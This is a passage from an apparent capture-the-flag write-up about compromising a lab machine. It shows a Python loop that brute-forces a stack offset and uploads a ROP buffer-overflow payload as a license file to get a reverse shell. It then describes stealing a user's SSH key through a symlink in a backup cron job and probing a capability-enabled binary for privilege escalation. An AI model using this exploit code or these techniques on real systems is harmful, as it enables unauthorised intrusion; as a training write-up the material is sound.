 ```python
    # Based on some tests I did, the injected string is normally in the last part of the stack addresses
	for offset in range(stack_range - 9000, stack_range):
		p.status(f"Offset --> {offset}/{stack_range}")
		# Prepare payload
		with open("test.txt", "wb") as file_to_upload:
			junk = b'A' * 520 # 4 bytes less than expected to compensate the php file processing
			payload = p64(pop_rdi_address) + p64(stack_limits[0] + offset) + p64(system_got_address) + command_to_execute
			program_input = junk + payload
			file_to_upload.write(program_input)

		# Send payload
		with open('test.txt','rb') as file_to_upload:
			files={'licensefile': file_to_upload}
			headers = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8', 'Accept-Language': 'en-US,en;q=0.5'}
			response = requests.post(url,files=files, headers=headers)

```

Not fancy but after some time waiting I got a reverse shell in my Netcat listener! We are now in the box, what a ride.

## In the machine

### Getting user

Looks like there is some kind of cron job making backups of the `html` folder running as the `dev` user. The zip files this cronjob creates are owned by `dev` but the group is `www-data` so we can read them, what about creating a soft link to the dev user home directory inside the `html` folder?

Looks like the idea worked! The full `dev` user home folder is copied and now we can access it. I will take the `dev` user private key to get a more reliable SSH session, the user flag is under:

```
/home/dev/user.txt
```

### Privesc

Inside the `dev` folder we can find the Emumu source code. Also, the program is installed and has registered something called "valid roms" to execute with Emumu.

According to the Makefile, the `reg_helper` binary has the `cap_dac_override` capability set:
```makefile
CC := gcc
CFLAGS := -std=c99 -Wall -Werror -Wextra -Wpedantic -Wconversion -Wsign-conversion

SOURCES := $(wildcard *.c)
TARGETS := $(SOURCES:.c=)

.PHONY: install clean

install: $(TARGETS)
    @echo "[+] Installing program files"
    install --mode 0755 emuemu /usr/bin/
    mkdir --parent --mode 0755 /usr/lib/emuemu /usr/lib/binfmt.d
    install --mode 0750 --group dev reg_helper /usr/lib/emuemu/
    setcap cap_dac_override=ep /usr/lib/emuemu/reg_helper

    @echo "[+] Register OSTRICH ROMs for execution with EMUEMU"
    echo ':EMUEMU:M::\x13\x37OSTRICH\x00ROM\x00::/usr/bin/emuemu:' \
        | tee /usr/lib/binfmt.d/emuemu.conf \
        | /usr/lib/emuemu/reg_helper
```